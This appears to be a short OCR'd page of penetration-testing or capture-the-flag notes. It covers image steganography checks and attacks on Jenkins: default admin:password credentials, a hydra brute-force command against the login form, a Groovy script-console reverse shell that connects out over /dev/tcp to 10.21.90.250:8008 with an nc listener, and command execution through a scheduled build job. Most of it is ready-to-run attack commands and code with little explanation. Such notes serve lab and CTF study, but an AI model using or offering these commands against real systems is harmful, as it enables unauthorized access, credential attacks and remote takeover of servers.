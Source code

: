 #### Images
if png, run `strings`
if jpg, try `strings` or bruteforce with stegseek
```
stegseek image.jpg /usr/share/wordlists/rockyou.txt
```

### Jenkins
default creds
- admin:password

bruteforce with hydra
```
hydra 127.0.0.1 -s 1337 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt
```

get shell from dashboard
- go to http://127.0.0.1:1337/script
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash", "-c", "exec 5<>/dev/tcp/10.21.90.250/8008; cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
- uses 'bash read line shell' from revshells.com
- catches on listener `nc -lvnp 8008`

can also run commands from dashboard
-  create a job > freestyle project > build triggers tab > Build periodically > in schedule field put * * * * * > add build step > execute shell > cmd /c whoami > save
	- 'build now' to trigger job
	- go to build history # and console output

